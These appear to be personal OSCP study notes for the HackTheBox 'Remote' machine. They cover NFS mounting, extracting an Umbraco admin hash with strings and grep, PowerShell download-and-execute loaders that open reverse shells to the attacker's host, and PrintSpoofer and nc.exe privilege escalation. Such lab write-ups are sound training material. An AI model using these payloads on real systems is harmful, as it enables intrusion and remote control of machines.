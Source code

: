 ```bash
mount -t nfs -o vers=2 10.129.95.194:/site_backups /mnt/remote -o nolock

sudo mount -t nfs -o vers=2 10.129.95.194:/site_backups /mnt/remote -o nolock
```

### Get the directory tree of the mount 
```
find . -ls > ~/home/user/web.dir
```

Don't use sublime or vscode. They miss files

### Go through config files, grep passwords
strings Umbraco.sdf | grep -i passwd
strings Umbraco.sdf | grep -i admin
strings Umbraco.sdf | grep -i admin@htb.local

adminadmin@htb.localb8be16afba8c314ad33d812f22a04991b90e2aaa{"hashAlgorithm":"SHA1"}admin@htb.localen-USfeb1a998-d3bf-406a-b30b-e269d7abdf50

### Those insdie strings so go start with /c
`/c ping 10.10.16.9`

### Solve Clock problem
1. try diff host <ip> or http://<ip> or http://<ip>/cms
2. change something like calc.exe or other placeholders to cmd.exe

### Shell
##### Avoid using Invoke-ConPtyShell.ps1
```
/c powershell iex (New-Object Net.WebClient).DownloadString('http://10.10.16.9/Invoke-ConPtyShell.ps1');Invoke-ConPtyShell 10.10.16.9 4242
```

/c powershell iex (New-Object Net.WebClient).DownloadString('http://10.10.16.9/Invoke-PowerShellTcp.ps1');Invoke-PowerShellTcp -Reverse -IPAddress 10.10.16.9 -Port 4242

https://0xdf.gitlab.io/2020/09/05/htb-remote.html
I’ll update the payload with the PowerShell loader that will download from my host a Nishang PowerShell reverse shell and run it. The payload will be:
```
string cmd = "/c powershell -c iex(new-object net.webclient).downloadstring('http://10.10.16.9/Invoke-PowerShellTcp.ps1')";Invoke-PowerShellTcp -Reverse -IPAddress 10.10.16.9 -Port 4242
```
To break that down, the target exe is still cmd.exe. It will run with /c, so running the command that follow. PowerShell will start, with -c to issue commands that follow. iex (shorthand for Invoke-Expression) will run whatever string comes back from the rest of the line. The rest of the line will reach out to my host, and download shell.ps1 (which is then passed to iex).

I’ll grab a copy of Invoke-PowerShellTcp.ps1 (and save it as shell.ps1), and add a line at the bottom to execute the shell:
```
Invoke-PowerShellTcp -Reverse -IPAddress 10.10.14.19 -Port 443
```
Without this line, the harness would load the reverse shell functions into the PowerShell session, and but not use them. Now it will load the functions and then invoke the one I want to call back to me.

### Priv
cp winPEASx64.exe /home/alvin/Documents/OSCP-PWK/HackTheBox/Windows/Remote
IWR http://10.10.16.9/winPEASx64.exe -OutFile winPeas.exe

### Not working at 2021 Sep
```
PrintSpoofer64.exe -i -c cmd # is not recognized as the name of a cmdlet, function, script file
.\PrintSpoofer64.exe -i -c cmd # stuck
.\PrintSpoofer64.exe -i -c "powershell -c iex( iwr http://10.10.16.9/Invoke-PowerShellTcp.ps1 -UseBasicParsing );Invoke-PowerShellTcp -Reverse -IPAddress 10.10.16.9 -Port 4567"
.\PrintSpoofer64.exe -i -c "powershell -ep bypass"
```

### nc.exe is the only working one
```
IWR http://10.10.16.9/nc.exe -OutFile nc.exe
.\PrintSpoofer64.exe -c "C:\users\public\nc.exe 10.10.16.9 4567 -e cmd"
```

At least 3 ways to root(some of them are patched now)
1. Crack registry key:
https://0xdf.gitlab.io/2020/09/05/htb-remote.html
2. RoguePotato is nolonger working
3. https://0xdf.gitlab.io/2020/02/01/htb-re.html#path-1-abuse-usosvc
2. PrinterSpoof
